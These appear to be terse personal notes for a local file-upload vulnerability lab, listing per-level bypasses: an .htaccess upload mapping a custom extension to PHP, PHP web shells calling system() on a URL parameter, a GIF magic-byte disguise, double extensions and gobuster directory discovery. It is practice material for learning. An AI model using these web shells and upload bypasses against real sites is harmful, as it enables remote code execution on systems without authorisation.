


### files
```bash
https://github.com/moeinfatehi/file_upload_vulnerability_scenarios

cd file_upload...
docker-compose up -d

 http://localhost:9001/upload1/uploads/get_cmd.php?cmd=whoami

 php alternative extension
 # hack tricks

```


```bash
.pht extension

```


#### Upload 12
- htaccess
```bash
# exploir
Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .test

# sending file
Content-Disposition: form-data; name="fileToUpload"; filename="pwned.test"
Content-Type: application/x-php

<?php
  system($_GET['cmd']);
?>

# URL chceck
http://localhost:9001/upload12/uploads/pwned.test?cmd=whoami

``` 
#### Upload 16
- File size 
```bash

```

### Upload 17
```bash

------WebKitFormBoundaryfHTHsvRzEXI4GBB4
Content-Disposition: form-data; name="fileToUpload"; filename="cmd.php"
Content-Type: application/x-php

<?=`$_GET[0]`?>

# URL
http://localhost:9001/upload17/uploads/cmd.php?0=id

```
#### Upload 23
```bash
Content-Type: image/php

GIF8;
<?php
  system($_GET['cmd']);
?>
```

#### Upload 31
```bash
echo -n "cmd" | md5sum
echo -n "cmd.php" | md5sum

# ans
dfff0a7fa1a55c8c1a4966c19f6da452

# URL
http://localhost:9001/upload31/uploads/dfff0a7fa1a55c8c1a4966c19f6da452.php

```

#### Upload 35
```bash
echo -n "i dont make mistakes" | sha1sum

2a287b0ceaabb96fad7012fa39165e67fb802f20

echo -n "2a287b0ceaabb96fad7012fa39165e67fb802f20" | wc -c

# ans
40

sha1sum cmd.php

```

#### Upload 41
```bash
gobuster dir -u http://localhost:9001/upload41/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20

# ans
/images
/static

http://localhost:9001/upload41/images/cmd.php


```

#### Upload 51
```bash
cmd.jpg.php

```

#### Upload 56
```bash
curl -s -X GET "http://localhost:9001/upload56/testing/cmd.php"

# ans
www-data


```